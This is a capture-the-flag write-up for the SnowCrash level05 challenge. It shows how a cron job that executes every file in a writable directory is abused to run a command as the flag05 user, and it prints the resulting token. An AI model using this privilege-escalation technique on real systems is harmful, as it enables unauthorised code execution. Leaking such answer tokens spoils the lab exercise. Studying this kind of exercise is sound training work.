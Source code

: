 when logging at this level (on the machine or via ssh but NOT when su - level05)
you have a "you have mail" prompt. checking it 

```bash
level05@SnowCrash:~$ echo $MAIL
/var/mail/level05
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
so this seems like a cronjob every 2 minutes registered to flag05.
Checking that file we get
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
so this is a simple bash script that runs all commands in open arena
/opt/openarenaserver directiory. Adding a simple getflag script
(and wall to see the output).

```bash
level05@SnowCrash:~$ echo 'getflag | wall' > /opt/openarenaserver/1
                                                                               
Broadcast Message from flag05@Snow                                             
        (somewhere) at 13:42 ...                                               
                                                                               
Check flag.Here is your token : viuaaale9huek52boumoomioc                      
```                                                           